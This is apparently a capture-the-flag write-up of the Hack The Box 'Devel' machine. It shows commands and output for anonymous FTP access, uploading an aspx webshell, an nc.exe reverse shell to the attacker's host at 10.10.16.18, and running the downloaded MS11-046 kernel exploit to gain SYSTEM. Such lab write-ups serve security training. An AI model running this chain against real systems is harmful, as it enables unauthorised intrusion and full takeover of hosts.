 ```yaml
---
title: HTB Devel Walkthrough
image:
   path: /assets/images/devel/devel.png
   alt: HTB Devel
categories: [HTB]
tags: [Windows ,FTP]
---
```


Deven was an easy box in which we exploited an ftp anonymous login to upload a webshell and then get a reverse shell , from there we used a windows 7 os vulnerability to privesc .

## Recon
### Nmap
we start with `nmap` general scan on all ports, which displays only  `2` ports :

```bash
nmap -p- -T4 10.129.47.243 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 08:25 +01
Stats: 0:01:23 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 15.56% done; ETC: 08:33 (0:07:30 remaining)
Stats: 0:01:23 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 15.57% done; ETC: 08:33 (0:07:30 remaining)
Stats: 0:01:39 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 18.51% done; ETC: 08:33 (0:07:16 remaining)                                                                                             
Nmap scan report for 10.129.47.243 (10.129.47.243)                                                                                                                     
Host is up (0.25s latency).                                                                                                                                            
Not shown: 65533 filtered tcp ports (no-response)                                                                                                                      
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

```

we launch a scripts and vulns specific scan on port `21`: 

```bash
nmap -p21 -sC -sV -T4 10.129.47.243 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 18:15 +01
Nmap scan report for 10.129.47.243 (10.129.47.243)
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
### FTP Anonymous
We have `Anonymous FTP login` allowed  so let's dive in :

```bash
ftp 10.129.47.243
Connected to 10.129.47.243.
220 Microsoft FTP Service
Name (10.129.47.243:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49159|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> 

```

It appears that we are in the web root directory , so lets  try and upload a web shell 

## Webshell
thee application is running `IIS` so we will upload an `aspx` webshell :

```bash
ftp> put cmd.aspx
local: cmd.aspx remote: cmd.aspx
229 Entering Extended Passive Mode (|||49160|)
125 Data connection already open; Transfer starting.
100% |**************************************************************************************************************************|  1442        8.18 MiB/s    --:-- ETA
226 Transfer complete.
1442 bytes sent in 00:00 (1.96 KiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||49161|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
11-03-23  07:29PM                 1442 cmd.aspx
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.


```
we can confirm that the `cmd.aspx` webshell is now uploaded by visiting the url : 

```
http://10.129.47.243/cmd.aspx
```
![webshell](/assets/images/devel/webshell.png)

## Reverse shell 
we have now command execution on the webserver , lets now spanw a reverse shell using `nc.exe` , and since the `nc` exe doesn't come by default in windows we need to running using an smb share from our attacker machine .

i'll locate the `nc.exe`  binary in kali and copy it to my folder and run ` impacket-smbserver' command :
```bash
impacket-smbserver share .
```

now i run this command from the webshell , and start an `nc` listener on my box : 

```
\\10.10.16.18\share\nc.exe -e cmd.exe 10.10.16.18 4444
```

i now have a reverse shell :

```
c:\windows\system32\inetsrv>

```

## Enumeration
To escalate our privileges we need to run `Winpeas` so first we check the `.NET` version because `winpeas` work with version `4.5.2` :

```bash
c:\windows\system32\inetsrv>reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP"
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Net Framework Setup\NDP\v2.0.50727
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Net Framework Setup\NDP\v3.0
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Net Framework Setup\NDP\v3.5

```

so we can't run `winpeas` , bummer .

we will use another recon tool called `[wesng](https://github.com/bitsadmin/wesng)` it's based on the output of windows's `systeminfo` command , and then provide the list of vulnerabilities the OS is vulnerable to


so let's compy the output of `systeminfo `  and save it to a file and run  `wesng` tool in our box :

```
python3 wes.py systeminfo.txt --impact "Elevation of Privilege"



```

## Privesc
we get only 4 result , so we will choose this one

```
Date: 20110614                                                                                                                                                         
CVE: CVE-2011-1249                                                                                                                                                     
KB: KB2503665                                                                                                                                                          
Title: Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege                                                                                   
Affected product: Windows 7 for 32-bit Systems                                     
Affected component:                     
Severity: Important                     
Impact: Elevation of Privilege
Exploit: https://www.exploit-db.com/exploits/40564/   
```

let's search for `MS11-046` in `[SecWiki](https://github.com/SecWiki/windows-kernel-exploits)` on github :

```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS11-046/ms11-046.exe

```

we run it from the `devel` Box using our smbserver :

```
c:\windows\system32\inetsrv>\\10.10.16.18\share\ms11-046.exe
\\10.10.16.18\share\ms11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system

```

and we are `nt authority system `
